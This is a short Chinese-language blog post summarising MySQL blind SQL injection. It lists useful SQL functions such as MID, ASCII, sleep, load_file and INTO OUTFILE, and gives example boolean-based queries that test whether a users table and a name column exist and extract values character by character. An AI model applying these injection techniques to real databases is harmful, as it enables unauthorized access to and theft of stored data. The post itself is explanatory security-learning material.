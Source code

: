 ```yaml
---
layout: post
title: "MySQL盲注小结"
subtitle: "MySQL盲注小结"
date: 2019-08-01
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

**注入常用的函数**



MID(要截取的字符串，起始位置，结束为止)        // 截取字符串

CHAR(ASCII)                                                         // 返回ASCII码对应的字符

ASCII(字符)                                                            // 返回字符对应的ASCII码值

ord(字符)                                                                // 返回字符对应的ASCII码值

IF(逻辑表达式，True返回值，Flase返回值)           // 逻辑判断

SubStr(要截取的字符串，起始位置，结束为止)    // 截取字符串

length(字符串)                                                       // 返回字符串的长度

count(列名)                                                            // 返回当前列名下有效记录数*(NULL不计入)*

sleep(s)                                                                  // 延时s秒

\#、/**/、--                                                             // 注释符

concat(字符串1,字符串2)                                       // 拼接字符串

load_file(文件路径及名称)                                      // 直接加载文件到源码中

INTO OUTFILE '文件路径及名称'                          // 输出





**判断是否存在users表名**

```mysql
select * from users where id=1 and 0<(select count(*) from users);   
```

*// 返回真则存在users表名*



**判断是否存在name字段**

```mysql
select * from users where id=1 and 0<(select count(name) from users);   
```

*// 返回真则存在name字段*



**取出 name 字段内容**

```mysql
select * from users where id=1 and 'g' = mid((select name from users limit 1),8,1);
```

*// 'g' 是遍历的,后面的为真则递增加1，一直到8说明name字段的长度为8位；*

*// 在递增加1的话则永远为假，到这个时候脚本就可以停止了。*


------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***